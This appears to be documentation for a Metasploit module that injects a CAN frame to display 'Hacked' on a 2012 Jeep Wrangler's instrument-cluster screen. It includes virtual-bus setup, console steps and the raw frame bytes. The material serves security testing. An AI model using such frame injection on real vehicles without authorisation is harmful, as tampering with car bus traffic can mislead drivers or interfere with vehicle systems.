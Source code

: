 ## Introduction
This module allows you to send and display the word "Hacked" on a 2012 Jeep Wrangler EVIC or the interactive display system in the middle of the instrument cluster as long as the ECO option has been disabled from being displayed.

This was originally discovered by Chad Gibbons and has written a PoC about it and recorded a video about it in Youtube as can be seen in the `info` of the msf module.

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

```
Module options (post/hardware/automotive/jeep_wrangler_evicsend):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CANBUS                    no        CAN Bus to perform scan on, defaults to connected bus
   SESSION                   yes       The session to run this module on.
```

## Scenarios
You can test this module doing a candump wherein the CAN Frame is `295 [7] 48 61 63 6B 65 64 0A` which actually displays the message "Hacked" on the display message of an Instrument Cluster.

```
msf5 auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf5 auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf5 auxiliary(client/hwbridge/connect) > sessions -i 1
[*] Starting interaction with 1...

hwbridge > run post/hardware/automotive/jeep_wrangler_evicsend canbus=vcan0

[*] Sending EVIC with some love...
[*] Check the message at the EVIC or the interactive display system in the middle of the instrument cluster
hwbridge >
```

You can use candump to verify the CAN frame being sent:

```
┌──(kali㉿kali)-[~]
└─$ candump vcan0
  vcan0  295   [7]  48 61 63 6B 65 64 0A 
```
